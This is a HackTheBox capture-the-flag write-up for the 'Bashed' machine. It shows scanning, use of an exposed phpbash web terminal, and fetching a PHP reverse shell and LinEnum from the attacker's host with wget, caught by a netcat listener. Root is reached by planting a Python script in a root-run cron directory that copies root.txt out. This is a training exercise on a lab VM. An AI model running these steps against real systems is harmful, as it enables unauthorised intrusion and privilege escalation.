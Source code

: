 Title: Bashed
Date: 2020-01-13 20:00
Tags: hackthebox, htb, solution, hacking
Category: HackTheBox
Slug: bashed
Authors: Paweł Mateja
Summary: Solution to the *Bashed* VM


# User flag

It is not really necessary to start this one with *nmap*, but it's never a bad first step

```bash
root@kali:~# nmap -sS -Pn -sV 10.10.10.68
Starting Nmap 7.70 ( https://nmap.org ) at 2020-01-13 13:20 CET
Nmap scan report for 10.10.10.68
Host is up (0.11s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.24 seconds
```

As we can see, only port 80 is opened. After opening it in web browser, there is a unfinished, but already launched website. We can dig a bit through it, just to learn that it is connected to a *phpbash* project. That's nice, but we want to speed things up.

We can run several tools to look for cool and useful, but hidden urls. My first choice here is DirBuser.
It takes him a few minutes to find the thing we need:

```
http://10.10.10.68/dev/phpbash.php
```

After opening that link we know that we are in the right place. It's an online bash terminal. So wy not to try to look for the first flag?

```
$ ls /user
$ cat /home/arrexel/user.txt
```

Yup, we got it!

# Root flag

*phpbash* is nice, but doesn't provide a full terminal experience. A reverse shell is wat we need.

Firstly we need a place in the /var/www/html path to store it. Only the *upload* dir will do, but we need nothing more. Except of course of a php reverse shell with out IP in it's config. I've already got it on my Kali VM, served by an apache instance, so it's easy:

```bash
www-data:/var/www/html/uploads# wget 10.10.14.16/shell.php
```

Now I can open netcat on my Kali, and load 10.10.10.68/upload/shell.php in my web browser.

```bash
root@kali:/var/www/html# nc -v -n -l -p 1234
```

It works, so now the same thing in */tmp* dir *LinEnum*

```bash
cd /tmp
wget 10.10.14.16/LinEnum.sh
bash LinEnum.sh
```

We can see good stuff in it's output!

```
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

We knew about this user already from listing the home directory. Now we can sudo it.

```bash
$ sudo -u scriptmanager bash
```

Works. What next? We need something to find a point for privilege escalation. *pspy* will help us with it.

```
pspy64
```

```
2020/01/13 05:46:01 CMD: UID=0    PID=2297   | python test.py
2020/01/13 05:46:01 CMD: UID=0    PID=2296   | /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
```

Nice, we can see, that */scrips* dir is owned by *scriptmanager*!

Now we need a tiny root.txt stealing python script. It doesn't need to be fancy.

```python
import shutil
import os
shutil.copy("/root/root.txt", "/tmp/root.txt")
os.system("chmod 777 /tmp/root.txt")
```

As in every step, I've served it on my Kali apache, so:

```bash
$ wget 10.10.14.16/bashed/run.py

sudo -u scriptmanager cp run.py /scripts
$ cat /tmp/root.txt
```

IT'S ROOTED. It was not difficult but fun!
